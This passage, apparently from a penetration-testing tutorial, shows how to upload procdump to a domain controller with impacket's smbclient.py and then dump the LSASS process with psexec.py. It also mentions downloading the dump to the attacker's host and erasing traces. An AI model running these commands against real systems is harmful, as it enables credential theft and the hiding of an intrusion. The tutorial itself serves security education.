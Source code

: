 To do so, send procdump to the server, using `smbclient.py` from the suite [impacket](https://github.com/SecureAuthCorp/impacket) for example.

[![](../_resources/21162bcc8502a49c8ebff4d4410ede0f.png)](https://en.hackndo.com/assets/uploads/2019/11/put_procdump.png)

	smbclient.py ADSEC.LOCAL/jsnow@DC01.adsec.local

	# use C$
	# cd Windows
	# cd Temp
	# put procdump.exe

Once uploaded, procdump needs to be executed in order to create this lsass dump.

[![execute_procdump.png](../_resources/6503b91e920050fb23b996174d85bd9f.png)](https://en.hackndo.com/assets/uploads/2019/11/execute_procdump.png)

	psexec.py adsec.local/jsnow@DC01.adsec.local "C:\\Windows\\Temp\\procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp"

The dump then needs to be downloaded on the attacker’s host, and traces on the remote host should be erased.
